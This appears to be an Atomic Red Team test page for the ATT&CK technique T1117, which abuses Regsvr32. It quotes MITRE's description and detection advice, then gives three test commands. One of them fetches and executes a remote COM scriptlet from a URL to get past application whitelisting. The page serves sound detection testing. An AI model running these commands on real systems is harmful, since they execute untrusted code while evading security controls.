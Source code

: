 # T1117 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1117)
<blockquote>Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe can be used to execute arbitrary binaries. (Citation: Microsoft Regsvr32)

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: SubTee Regsvr32 Whitelisting Bypass) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via Component Object Model Hijacking. (Citation: Carbon Black Squiblydoo Apr 2016)

Detection: Use process monitoring to monitor the execution and arguments of regsvr32.exe. Compare recent invocations of regsvr32.exe with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity. Command arguments used before and after the regsvr32.exe invocation may also be useful in determining the origin and purpose of the script or DLL being loaded. (Citation: Carbon Black Squiblydoo Apr 2016)

Platforms: Windows

Data Sources: Loaded DLLs, Process monitoring, Process command-line parameters, Windows Registry

Defense Bypassed: Process whitelisting, Anti-virus

Permissions Required: User, Administrator

Remote Support: No

Contributors: Casey Smith</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | Regsvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{filename} scrobj.dll
```
<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct|

#### Run it with `command_prompt`!
```
regsvr32.exe /s /u /i:#{url} scrobj.dll
```
<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | payload.dll|

#### Run it with `command_prompt`!
```
regsvr32.exe #{dll_name}
```
<br/>

